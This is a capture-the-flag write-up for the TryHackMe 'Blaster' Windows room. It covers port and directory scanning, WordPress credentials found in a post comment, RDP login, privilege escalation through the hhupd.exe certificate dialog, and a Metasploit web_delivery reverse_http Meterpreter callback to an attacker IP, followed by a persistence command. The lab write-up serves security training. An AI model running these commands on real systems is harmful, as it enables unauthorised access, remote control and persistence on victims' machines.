# Blaster

## General information

<h3>Difficulty:  </h3>

<h3> Operating system: Windows</h3> 

<h3> Date of resolution: 22/06/2025 </h3>

<h3>Link VM: <a href="https://tryhackme.com/room/blaster" target="_blank">Blaster</a></h3>

### **Read this document in espagnol** <a href="blaster.md">Blaster</a>

## Recognition

TryHackme provides us with the target machine's IP address, **target_ip**

I'm going to set the IP address of the target machine in the **/etc/hosts** file. I'm going to name it **windows.net**

<p align="center"> 

</p>

### Open port scanning

#### TCP port scanning

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```
<p align="center"> 

</p>

<div align="center">

| Open port | Service       | Version                     |
| --------- | ------------- | --------------------------- |
| 3389      | ms-wbt-server | Microsoft Terminal Services |
| 80        | http          | Microsoft IIS httpd 10.0    |

</div>

## Exploration

I will carry out web fuzzing

```
dirsearch -u http://windows.net/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

Browsing http://windows.net/retro/

<p align="center"> 

</p>

I suspect that **wade** may be the creator of this page.

Investigating the page, I find the following section at the end:

<p align="center"> 

</p>

Which brings us to:

<p align="center"> 

</p>

We can also find this page by web fuzzing, with the following command:

```
gobuster dir -u http://windows.net/retro -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

On the WordPress page we test if **wade** can be the user of this WordPress page

<p align="center"> 

</p>

In older versions of WordPress, when entering an incorrect password, the system response varies depending on whether the username exists or not, allowing an attacker to confirm the validity of a specific user, **in this case, it validates it**.

**I can't get anywhere with brute force,** so I decide to investigate the posts. Within this **Ready Player One** post, in the comments, we find the password: **parzival**.

<p align="center"> 

</p>

Enter your username and password in WordPress

Username: wade
Password: parzival

<p align="center"> 

</p>

Since we know the username and password and we have port 3389 open, we will execute the following command:

```
xfreerdp /u:wade /p:parzival /v:windows.net:3389
```

A MV will open, and on the desktop we will find a **user.txt**

<p align="center"> 

</p>

Let's continue on the remote desktop and we can write down this command:

```
dir C:\ /s /b | findstr hhupd.exe
```

Which is used to find the hhupd.exe file that is used to escalate privileges.

<p align="center"> 

</p>

## Escalation of privilege

If we search on the internet for the CVE hhpud.exe, we see:

<p align="center"> 

</p>

This **hhupd.exe** file is found on most Windows systems, so I'll explain step by step how we can escalate privileges with this file.

**show more details** - **show information about the publisher's certificate** - **VeriSign Commercial Software Publishers CA

<p align="center"> 



</p>

We close everything, and then the Internet Explorer will open with the following page:

<p align="center"> 

</p>

**settings** - **file** - **save as..**

<p align="center"> 

</p>

OK, we save as **cmd** and go to **cmd**

<p align="center"> 

</p>

**We are root**

<p align="center"> 

</p>

```
whoami
```

<p align="center"> 

</p>

We use the following command to read a .txt file located on the **Administrator Desktop**

```
type \Users\Administrator\Desktop\root.txt
```

<p align="center"> 

</p>

Then we open metasploit, we execute the following commands

```
use exploit/multi/script/web_delivery
show options
```

<p align="center"> 

</p>

```
Show targets
```

<p align="center"> 

</p>

```
set TARGET 2
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 10.8.139.36
set LPORT 4444
show options
```

<p align="center"> 

</p>

```
run -j
```

<p align="center"> 

</p>

We copy the entire command into the window cmd where we escalate privileges.

<p align="center"> 

</p>

Then, in metasploit we managed to open a session in meterpreter by executing the previous command

<p align="center"> 

</p>

We are in:

```
sysinfo
```

<p align="center"> 

</p>

### Session persistence

Then finally we execute this command:

```
run persistence -x
```

<p align="center"> 

</p>

But I note that this command is obsolete, and it's better to use this module **exploit/windows/local/persistence** or **exploit/windows/local/persistence_service**.

**That's it for this machine!**

## Conclusion

This machine worked very well. Sometimes, brute force isn't necessary; instead, by searching the page, we can find both the username and password for the Wordpress server or port 3389. We escalated privileges in a different way with the **hhupd.exe** file. Finally, we tried to persist the session with Meterpreter, but it turns out that this function is obsolete.